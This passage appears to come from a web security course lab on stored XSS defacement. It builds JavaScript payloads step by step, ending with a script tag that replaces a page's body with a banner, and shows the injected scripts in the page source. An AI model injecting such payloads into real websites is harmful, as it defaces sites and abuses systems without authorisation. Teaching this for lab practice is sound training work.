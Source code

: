 We can also utilize jQuery functions for more efficiently achieving the same thing or for changing the text of multiple elements in one line (to do so, the jQuery library must have been imported within the page source):
```javascript
$("#todo").html('New Text');
```

This gives us various options to customize the text on the web page and make minor adjustments to meet our needs. However, as hacking groups usually leave a simple message on the web page and leave nothing else on it, we will change the entire HTML code of the main body, using innerHTML, as follows:
```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```

As we can see, we can specify the body element with document.getElementsByTagName('body'), and by specifying [0], we are selecting the first body element, which should change the entire text of the web page. We may also use jQuery to achieve the same thing. However, before sending our payload and making a permanent change, we should prepare our HTML code separately and then use innerHTML to set our HTML code to the page source.

For our exercise, we will borrow the HTML code from the main page of Hack The Box Academy:
```html
<center>
    <h1 style="color: white">Cyber Security Training</h1>
    <p style="color: white">by 
        <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
    </p>
</center>
```
Tip: It would be wise to try running our HTML code locally to see how it looks and to ensure that it runs as expected, before we commit to it in our final payload.

We will minify the HTML code into a single line and add it to our previous XSS payload. The final payload should be as follows:
```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

By using three XSS payloads, we were able to successfully deface our target web page. If we look at the source code of the web page, we will see the original source code still exists, and our injected payloads appear at the end:
```html
<div></div><ul class="list-unstyled" id="todo"><ul>
<script>document.body.style.background = "#141d2b"</script>
</ul><ul><script>document.title = 'HackTheBox Academy'</script>
</ul><ul><script>document.getElementsByTagName('body')[0].innerHTML = '...SNIP...'</script>
</ul></ul>
```
This is because our injected JavaScript code changes the look of the page when it gets executed, which in this case, is at the end of the source code. If our injection was in an element in the middle of the source code, then other scripts or elements may get added to after it, so we would have to account for them to get the final look we need.
